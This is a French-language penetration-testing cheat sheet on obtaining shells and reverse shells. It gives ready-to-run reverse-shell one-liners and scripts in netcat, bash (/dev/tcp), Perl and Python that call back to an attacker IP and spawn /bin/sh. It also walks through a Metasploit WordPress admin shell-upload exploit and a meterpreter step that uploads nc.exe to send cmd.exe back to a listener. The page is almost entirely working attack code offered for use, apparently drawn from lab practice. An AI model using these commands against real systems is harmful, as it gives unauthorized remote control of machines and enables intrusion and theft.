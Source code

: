 # Shell et reverse shell

**Reverse shell Netcat**

```bash
root@kali:~# nc -lnvp 12345
cible@debian:~$ nc 192.168.56.123 -e /bin/bash
```

**Reverse shell Bash**

```bash
root@kali:~# nc -lnvp 12345
cible@debian:~$ bash -i >& /dev/tcp/192.168.56.123/12345 0>&1
```

**Reverse shell Perl**

Script perl sur machine cible :

```perl
use Socket;
$i="192.168.56.123";
$p=4444;
socket(S,PF_INET,SOCK_STREAM,getprotobyname ("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))) {open(STDIN,">&S");
open(STDOUT,">&S"); open (STDERR, ">&S"); exec ("/bin/sh -i");};
```

Lancer un listener sur attaquant :

```bash
nc -lnvp 4444
```

**Reverse shell Python**

Script python sur machine cible :

```python
import socket,subprocess,os;
s=socket.socket (socket.AF_INET, socket.SOCK_STREAM);
s.connect (("192.168.56.123", 4444));
os.dup2 (s.fileno(),0);
os.dup2 (s.fileno(),1);
os.dup2 (s.fileno(), 2);
p=subprocess.call (["/bin/sh","-i"]);
```

Lancer un listener sur attaquant :

```bash
nc -lnvp 4444
```

Lancer script python sur cible :

```bash
python reverse.py
```
Lancer script perl sur cible :

```bash
perl reverse.perl
```

**Passer à un shell bash si shell pourri**

```bash
SHELL=/bin/bash script -q /dev/null
```

**Reverse-shell Wordpress**  

En cas d'accès à un wp-admin, possibilité de faire un reverse shell avec Metasploit :

```bash
msfconsole
msf > use exploit/unix/webapp/wp_admin_shell_upload
msf > set PASSWORD P@s5w0rd!
msf > set USERNAME admin
msf > set TARGETURI /wordpress
msf > set RHOSTS 10.10.10.29
msf > run
```

Puis avoir un shell propre :

```
meterpreter> lcd /home/username/Downloads
meterpreter> cd C:/inetpub/wwwroot/wordpress/wp-content/uploads
meterpreter > upload /usr/share/windows-binaries/nc.exe
```

En même temps, ouvrir un listener netcat dans un autre terminal : ```nc -lnvp 1234```.

```
meterpreter> execute -f nc.exe -a "-e cmd.exe 10.10.14.2 1234"
```

Un shell est accessible depuis le listener Netcat.
